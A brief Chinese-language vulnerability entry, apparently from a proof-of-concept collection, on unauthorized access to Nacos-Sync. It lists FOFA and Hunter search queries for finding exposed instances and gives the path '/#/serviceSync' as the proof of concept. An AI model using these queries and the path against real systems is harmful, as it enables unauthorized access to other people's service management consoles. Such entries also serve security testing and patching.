 # Nacos-Sync 未授权访问漏洞

## 网络测绘

fofa: title="Nacos-Sync"

hunter: web.title="Nacos-Sync"

## POC / EXP

```
/#/serviceSync
```